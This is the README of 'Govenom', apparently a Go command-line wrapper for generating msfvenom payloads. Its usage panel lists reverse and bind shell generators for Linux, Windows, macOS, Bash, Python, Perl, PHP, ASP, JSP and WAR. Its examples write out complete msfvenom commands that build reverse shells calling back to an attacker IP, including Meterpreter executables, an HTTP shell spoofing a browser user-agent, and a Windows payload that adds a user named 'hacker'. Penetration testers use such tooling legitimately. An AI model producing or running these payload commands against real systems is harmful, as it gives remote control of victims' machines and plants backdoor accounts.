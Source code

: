 # Govenom
[![forthebadge](https://forthebadge.com/images/badges/made-with-go.svg)](https://forthebadge.com) 

Generate MSFVenom shells in command line :)

## To-do List
- [x] v0.1.0 Generate MSFVenom shells in command line.
   - [ ] v0.1.1 Use Cobra lib instead of Cli lib.
- [ ] v0.2.0 Support Bind Shell and Reverse Shell.
- [ ] v0.3.0 Supported Command execution and generate a Litener.
- [ ] v0.4.0 Provide WebUI or GUI.

## Usage
This panel appears when typing `./Govenom -h` :
```
USAGE:
   Govenom [global options] command [command options] [arguments...]

COMMANDS:
   linux    Generate Linux Meterpreter reverse/bind shell x86 multi stage :)
   windows  Generate Windows Meterpreter muti shells :)
   macos    Generate MacOS Meterpreter reverse/bind shells :)
   bash     Generate a Bash reverse shell
   python   Generate a Python reverse shell
   perl     Generate a Perl reverse shell
   asp      Generate a ASP Meterpreter shell
   jsp      Generate a Jsp reverse shell
   war      Generate a War reverse shell
   php      Generate a PHP reverse shells
   help, h  Shows a list of commands or help for one command

GLOBAL OPTIONS:
   --help, -h  show help
```

## Examples
It is possible to provide the attacker IP address and listening port with the flags `-lhost` and `-port`.
```
# ./Govenom bash -lhost 1.2.3.4 -port 4444                                                                                                                                                          
Govenom - (c)2021 - arch3rPro 
Note that you need to generate a listener by msfconsole on your attack Host !

msfvenom -p cmd/unix/reverse_bash LHOST=1.2.3.4 LPORT=4444 -f raw > shell.sh 
```
```
# ./Govenom  windows
Govenom - (c)2021 - arch3rPro 
Note that you need to generate a listener by msfconsole on your attack Host !

 #1   Windows Meterpreter reverse shell: msfvenom -p windows/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f exe > shell.exe 
 #2   Windows Meterpreter http reverse shell: msfvenom -p windows/meterpreter_reverse_http LHOST=127.0.0.1 LPORT=4444 HttpUserAgent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.103 Safari/537.36" -f exe > shell.exe 
 #3   Windows Meterpreter bind shell: msfvenom -p windows/meterpreter/bind_tcp RHOST= 192.168.1.1 LPORT=4444 -f exe > shell.exe 
 #4   Windows CMD Multi Stage: msfvenom -p windows/shell/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f exe > shell.exe 
 #5   Windows add user: msfvenom -p windows/adduser USER=hacker PASS=password -f exe > useradd.exe
```

## Thanks
* [goshell](https://github.com/eze-kiel/goshell) - Generate reverse shells in command line with Go ! 
